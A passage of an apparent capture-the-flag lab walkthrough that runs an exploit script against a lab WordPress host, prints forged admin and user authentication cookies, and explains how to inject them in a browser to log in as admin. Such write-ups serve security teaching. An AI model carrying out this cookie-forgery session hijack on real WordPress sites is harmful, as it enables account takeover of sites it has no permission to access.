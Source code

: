 ```python
python3 exploit.py 1
```

```
Cookie 1:
Cookie Name: wordpress_logged_in_eb51341dc89ca85477118d98a618ef6f
Cookie Value: admin|1739982470|Q88u2tRrpSrLBiNhNFTf2i4Z73RaQUFYNJtKyE4JK2C|53f5d846ce437d0391b20596d934fe55069c6d573a4e703c08664dcfa6849354

Cookie 2:
Cookie Name: wordpress_eb51341dc89ca85477118d98a618ef6f
Cookie Value: admin|1739982470|Q88u2tRrpSrLBiNhNFTf2i4Z73RaQUFYNJtKyE4JK2C|0f2e902d25dec10599b9518917964dd05e4e20ea58af7002b35177f59760f502


```
### From Cookies to Admin Login

Now, we will use the cookies retrieved earlier to log in as admin on the WordPress site. While on the `vulnerablewp.thm:8080` page, you can manually inject the cookies into Firefox. To do this, right-click on the page and select **Inspect**, then open the browser's developer tools.

```
browser > Inspect > Storage > Cookies 

Select  http://vulnerablewp.thm:8080 >  + (add new row)

doublie click on new row Name

---------------------------
Name: wordpress_eb51341dc89ca85477118d98a618ef6f
Value: admin|1739982470|Q88u2tRrpSrLBiNhNFTf2i4Z73RaQUFYNJtKyE4JK2C|0f2e902d25dec10599b9518917964dd05e4e20ea58af7002b35177f59760f502
---------------------------



http://vulnerablewp.thm:8080/wp-admin/  ---> press Enter

```
This will apply the injected cookies to your session. When the page reloads, you should be logged in as the **user_id** 1. If everything was done correctly, you will see the admin interface

Once logged in as the **user_id** 1, navigate to [http://vulnerablewp.thm:8080/wp-admin/profile.php ] link to get details about your profile, such as your username, email address, and personal settings.


> [!info] There are multiple ways to add cookies in the browser. If you have difficulty using the above method, you can add cookies to the browser using an extension like **Cookiebro Editor**. Follow the steps provided in the extension below to add or edit cookies. Ensure the expiration date for the cookies is set to a future value to keep them valid.

```
# user_id 2
python3 exploit.py

Cookie 1:
Cookie Name: wordpress_logged_in_eb51341dc89ca85477118d98a618ef6f
Cookie Value: tesla|1739983938|oMTKW0ETWwmEYpwn2o1qV61h6p0jrPyc6X5AFxZTyHA|2624093f94f9df9ad6c89ce6dbfed76b04848a7263ccf13655f46a741040b465

Cookie 2:
Cookie Name: wordpress_eb51341dc89ca85477118d98a618ef6f
Cookie Value: tesla|1739983938|oMTKW0ETWwmEYpwn2o1qV61h6p0jrPyc6X5AFxZTyHA|55ca71639f58cc54f8fa7187ad2d774891240bc8ccf9671a03a500da67c1ef94
```